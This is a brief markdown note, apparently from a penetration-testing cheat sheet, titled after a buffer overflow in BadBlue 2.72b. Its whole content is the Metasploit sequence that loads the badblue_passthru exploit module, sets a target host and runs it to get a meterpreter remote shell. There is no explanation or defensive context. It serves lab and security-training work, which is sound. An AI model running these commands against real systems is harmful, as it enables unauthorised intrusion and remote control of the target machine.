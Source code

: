 # BadBlue
- 2.72b PassThru Buffer Overflow
```
msfconsole

use exploit/windows/http/badblue_passthru
set RHOSTS <ip>
exploit

meterpreter >
```

